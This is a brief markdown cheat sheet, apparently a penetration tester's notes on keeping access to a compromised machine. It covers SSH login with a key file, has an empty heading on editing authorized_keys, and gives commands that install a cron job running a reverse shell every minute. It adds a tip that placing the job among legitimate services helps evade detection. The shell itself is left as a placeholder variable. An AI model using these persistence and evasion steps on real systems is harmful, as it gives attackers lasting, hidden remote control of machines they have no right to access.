 # SSH Keys
## Note: SSH Keys need to be 'chmod 400' before you're able to use.

``` ssh -i $key_file -l $username $IPAddress -p $port```

## Editing Authorized_Keys

# Cron Jobs
## Putting these in the same directory as legitimate services is a +1 for evasion.


``` echo "* * * * * $bash_compatible_reverse_shell_here" > $pathtocustomcronjob```
``` crontab -i $pathtocustomcronjob ```

